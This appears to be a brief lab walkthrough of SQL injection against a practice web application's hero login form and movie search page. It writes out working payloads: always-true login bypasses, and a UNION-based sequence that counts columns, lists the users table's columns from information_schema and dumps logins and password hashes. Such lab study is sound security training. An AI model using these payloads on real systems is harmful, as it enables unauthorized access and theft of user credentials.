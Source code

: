 ## SQL injection

### Hero form : 
```
select * from heros where username = ''  AND password = ''
```
Solution : we have to pass the sql to be always true
```
username : 'or '1'='1' # 
 ==> select * from heros where username = ''or '1'='1' # '  AND password = '' ==> true
```
Solution 2
```
username: 'or '1'='1
password: 'or '1'='1
select * from heros where username = ''or '1'='1  AND password = ''or '1'='1' ==> false or true and false or true ==> true and true ==> true
```
### GET/search

#### get all movies

```
select * from movies where name like  '%%'
```
```
Solution
%'or 1=1 # attention a space 
```

#### get password hash of user

```
%'order by 7 # at ==> true ==> 7 columns

%' union select 1,2,3,id,5,6,7 from users # attttt ==> true ==> have table name users
%' union select 1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7 from information_schema.columns where table_name='users' # att ==> get all columns name of the table user 
 --- get result: 
 |id|,|login|,|password|,|email|,|secret|,|activation_code|,|activated|,|reset_code|,|admin|

%' union select 1,2,login,password,5,6,7 from users # att ==> get password hash ! 
```
